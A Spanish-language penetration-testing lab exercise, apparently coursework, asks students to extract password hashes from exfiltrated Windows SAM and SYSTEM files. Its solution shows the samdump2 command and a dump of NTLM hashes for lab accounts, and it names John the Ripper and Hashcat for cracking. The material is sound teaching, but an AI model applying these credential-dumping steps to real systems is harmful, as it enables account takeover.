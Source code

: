 - En otra terminal, en el Kali Linux, podemos verificar la existencia de los archivos `SAM` y `SYSTEM` en nuestro `home/user/Downloads` en nuestro Kali Linux.

```bash
┌──(user㉿kali)-[~]
└─$ ls -lh /home/user/Downloads/SAM
-rwxr-x--- 1 user user 256K Nov  4 08:00 /home/user/Downloads/SAM
                                                                                                                     
┌──(user㉿kali)-[~]
└─$ ls -lh /home/user/Downloads/SYSTEM
-rwxr-x--- 1 user user 7.5M Nov  4 09:50 /home/user/Downloads/SYSTEM
```

- Una vez que tenemos los archivos target exfiltrados, procedemos al siguiente paso que es el crackeo de dichos archivos.

### 2.6. Análisis de los Archivos Exfiltrados (2 puntos)

- Una vez que hayas descargado los archivos **SAM** y **SYSTEM**, describe el procedimiento que seguirías en tu máquina atacante para extraer los hashes de contraseñas. Especifica qué herramientas emplearías para realizar esta tarea.

- **Tip**: Una vez descargados los archivos SAM y SYSTEM a tu máquina Kali Linux, usa herramientas como `samdump2` para extraer los hashes.

- **Tip adicional**: Con los hashes extraídos, puedes intentar descifrarlos con herramientas como **John the Ripper** o **Hashcat**.

<hr style="border: none; height: 10px; background-color: #003b00;" />

## <font color="#87CEEB">Solución</font>

<hr style="border: none; height: 10px; background-color: #003b00;" />

- Extrae los Hashes de los Archivos SAM y SYSTEM

```bash
samdump2 SYSTEM SAM > hashes.txt
```

- Verificar archivo `hashes.txt`:

```bash
cat hashes.txt               
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
*disabled* sshd:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
sshd_server:1002:aad3b435b51404eeaad3b435b51404ee:8d0a16cfc061c3359db455d00ec27035:::
leia_organa:1004:aad3b435b51404eeaad3b435b51404ee:8ae6a810ce203621cf9cfa6f21f14028:::
luke_skywalker:1005:aad3b435b51404eeaad3b435b51404ee:481e6150bde6998ed22b0e9bac82005a:::
han_solo:1006:aad3b435b51404eeaad3b435b51404ee:33ed98c5969d05a7c15c25c99e3ef951:::
artoo_detoo:1007:aad3b435b51404eeaad3b435b51404ee:fac6aada8b7afc418b3afea63b7577b4:::
c_three_pio:1008:aad3b435b51404eeaad3b435b51404ee:0fd2eb40c4aa690171ba066c037397ee:::
ben_kenobi:1009:aad3b435b51404eeaad3b435b51404ee:4fb77d816bce7aeee80d7c2e5e55c859:::
darth_vader:1010:aad3b435b51404eeaad3b435b51404ee:b73a851f8ecff7acafbaa4a806aea3e0:::
anakin_skywalker:1011:aad3b435b51404eeaad3b435b51404ee:c706f83a7b17a0230e55cde2f3de94fa:::
jarjar_binks:1012:aad3b435b51404eeaad3b435b51404ee:ec1dcd52077e75aef4a1930b0917c4d4:::
lando_calrissian:1013:aad3b435b51404eeaad3b435b51404ee:62708455898f2d7db11cfb670042a53f:::
boba_fett:1014:aad3b435b51404eeaad3b435b51404ee:d60f9a4859da4feadaf160e97d200dc9:::
jabba_hutt:1015:aad3b435b51404eeaad3b435b51404ee:93ec4eaa63d63565f37fe7f28d99ce76:::
greedo:1016:aad3b435b51404eeaad3b435b51404ee:ce269c6b7d9e2f1522b44686b49082db:::
chewbacca:1017:aad3b435b51404eeaad3b435b51404ee:e7200536327ee731c7fe136af4575ed8:::
kylo_ren:1018:aad3b435b51404eeaad3b435b51404ee:74c0a3dd06613d3240331e94ae18b001:::
```
